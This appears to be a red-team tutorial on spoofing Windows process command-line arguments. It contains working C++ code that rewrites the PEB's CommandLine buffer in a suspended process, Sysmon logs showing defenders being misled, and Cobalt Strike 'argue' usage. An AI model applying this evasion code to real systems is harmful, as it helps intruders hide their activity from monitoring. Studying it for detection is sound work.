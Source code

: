 Processes can be started with command line arguments.  For instance, if we do:

C:\>notepad C:\Windows\System32\WindowsCodecsRaw.txt


Notepad will launch and open the specified file.  Logging tools and process inspection tools can read these arguments, as they are stored in the Process Environment Block (PEB) of the process itself.

![[34. Command Line Spoofing.png]]

However, there are plenty of times where we may want to obscure our command line arguments to hide our true intent or mislead defenders.  This can be done using the following high-level steps:

-   Create a process with "fake" arguments (these are the arguments you want to get logged) in a suspended state.
-   Reach into the PEB and find the RTL_USER_PROCESS_PARAMETERS.
-   Overwrite the command line arguments in this structure with the actual arguments you want executed.
-   Resume the process.  When the process resumes, it executes the new arguments.

Create the target process with the fake arguments with the CREATE_SUSPENDED flag.

#include <iostream>
#include <Windows.h>

int main()
{
    // Create the process with fake args
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    WCHAR fakeArgs[] = L"notepad totally-fake-args.txt";

    if (CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        fakeArgs,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\",
        &si,
        &pi))
    {
        printf("Process created: %d", pi.dwProcessId);
    }
}

![[35. Command Line Spoofing.png]]

Next, we need to use the native NtQueryInformationProcess API to query the process and populate a PROCESS_BASIC_INFORMATION struct.  One of the properties on this struct is the base address of the PEB.  For that, we need the **typedef** for the function.

#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(*QueryInformationProcess)(IN HANDLE, IN PROCESSINFOCLASS, OUT PVOID, IN ULONG, OUT PULONG);

  

Resolve the location of the API from ntdll.dll.

// Resolve the location of the API from ntdll.dll
HMODULE ntdll = GetModuleHandle(L"ntdll.dll");
QueryInformationProcess NtQueryInformationProcess = (QueryInformationProcess)GetProcAddress(ntdll, "NtQueryInformationProcess");

  

Then we can call it.

// Call NtQueryInformationProcess to read the PROCESS_BASIC_INFORMATION
PROCESS_BASIC_INFORMATION pbi;
DWORD length;

NtQueryInformationProcess(
    pi.hProcess,
    ProcessBasicInformation,
    &pbi,
    sizeof(pbi),
    &length);

  

Read the PEB using ReadProcessMemory.

// With the PEB base address, we can read the PEB structure itself
PEB peb;
SIZE_T bytesRead;

ReadProcessMemory(
    pi.hProcess,
    pbi.PebBaseAddress,
    &peb,
    sizeof(PEB),
    &bytesRead);

  

Now from the PEB, we have the location of the ProcessParameters.  Read those next.

// Read the Process Parameters
RTL_USER_PROCESS_PARAMETERS rtlParams;

ReadProcessMemory(
    pi.hProcess,
    peb.ProcessParameters,
    &rtlParams,
    sizeof(RTL_USER_PROCESS_PARAMETERS),
    &bytesRead);

  

Craft the new arguments and write them into the CommandLine buffer.

// Craft new args and write them into the command line buffer
WCHAR newArgs[] = L"notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt";
SIZE_T bytesWritten;

WriteProcessMemory(
    pi.hProcess,
    rtlParams.CommandLine.Buffer,
    newArgs,
    sizeof(newArgs),
    &bytesWritten);

  

Finally, resume the process.

ResumeThread(pi.hThread);

  

Notepad will now open WindowsCodecsRaw.txt, but Sysmon has recoded the fake args.

Process Create:
ProcessId: 7056
Image: C:\Windows\System32\notepad.exe
CommandLine: notepad totally-fake-args.txt
CurrentDirectory: C:\

  

However, if we inspect it with Process Hacker, we see something rather curious.


![[36. Command Line Spoofing.png]]

It's the path to the real file and it's truncated.  So what's happening here?

First, Process Hacker provides point-in-time data.  It will re-read the PEB each time we close and re-open the properties window for a process.  So logically, it's now reading the new args we wrote into the PEB.

Second, the data within this buffer is actually a **UNICODE_STRING** which looks something like this:

struct UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
}

  

You can see that it has a Buffer (holds the actual data) and a Length (the length of the data).  When the process was created, the Length is **58** (_notepad totally-fake-args.txt_), but the new args (_notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt_) has a length of **96**.  We are updating the content of the buffer, but not the length field; and if you read 58 bytes of the new args, it takes you as far as highlighted in bold: _**notepad C:\\Windows\\System32\\W**indowsCodecsRaw.txt_.

Process Hacker, Process Explorer and possibly others only read up to the value given by this field, so we can trick them by intentionally making it smaller, thus truncating the string at a strategic point (e.g. in this instance, what if it only showed "notepad" and not the path...).  _This is left as an exercise to the reader._

Command Line arg spoofing is controlled in Cobalt Strike with the `argue` command.

beacon> help argue
Use: argue [command] [fake arguments]
     argue [command]
     argue

Spoof [fake arguments] for [command] processes launched by Beacon.
This option does not affect runu/spawnu, runas/spawnas, or post-ex jobs.

Use argue [command] to disable this feature for the specified command.

Use argue by itself to list programs with defined spoofed arguments.

  

One thing to note about the implementation is that it also does not adjust the length field or allocate new memory, so the fake args should be as long, or longer than the real ones.

Let's start with a baseline:

beacon> shell whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192  

  

Because the shell command was used here, Sysmon logs the creation of cmd.exe with the associated command line arguments.

Process Create:
ProcessId: 5096
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /C whoami /groups

  

If we still wanted to run whoami via cmd, but without it appearing on the command line, we could do:

beacon> argue C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10
[*] Tasked beacon to spoof 'C:\Windows\system32\cmd.exe' as '/c ping 127.0.0.1 -n 10'

beacon> shell whoami /groups

  

We get the same output, but Sysmon logged it as:

Process Create:
ProcessId: 2588
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10

  

Command Line spoofing is not a silver bullet, as in this case a process creation event for whomi.exe was still created.  The technique is much more effective when running commands that don't spawn additional processes.



